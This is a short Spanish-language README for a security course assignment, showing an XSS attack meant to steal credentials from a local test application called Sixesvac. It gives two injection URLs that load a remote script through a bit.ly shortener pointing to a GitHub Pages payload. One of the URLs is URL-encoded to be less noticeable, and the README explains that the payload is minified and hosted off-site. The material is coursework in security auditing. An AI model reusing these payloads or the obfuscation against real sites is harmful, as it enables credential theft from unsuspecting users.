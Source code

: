 # sixesvac-xss
Ejemplo de ataque de XSS para el robo de credenciales en la aplicación de prueba Sixesvac, para la asignatura de Auditoría e Xestión de Seguridade.

## URL a usar para el ataque XSS
1. `http://localhost:8080/privado/login.php?err_id=<script src="http://bit.ly/3amEhNK"></script>` (45 caracteres en parámetro de consulta)
3. `http://localhost:8080/privado/login.php?err_id=%3C%73%63%72%69%70%74%20%73%72%63%3D%22%68%74%74%70%3A%2F%2Fbit%2E%6C%79%2F3amEhNK%22%3E%3C%2F%73%63%72%69%70%74%3E` (115 caracteres en parámetro de consulta; más discreto mediante codificación URL)

## Cómo funciona
Se utiliza XSS para cargar un script subido a GitHub Pages, un servicio gratuito de GitHub que publica recursos estáticos de un repositorio de GitHub. Para acortar el URL se utiliza un acortador de URL gratuito para redirigir a [https://aggarcia3.github.io/sixesvac-xss/p.js]. Además, el script diseñado para ejecutar el ataque está minificado lo máximo posible, sacrificando compatibilidad con Internet Explorer y navegadores más antiguos donde es necesario, para usar sintaxis y funciones más nuevas que redundan en un código más breve.

## Herramientas usadas
http://bit.ly

https://onlinetexttools.com/url-encode-text

https://jscompress.com/
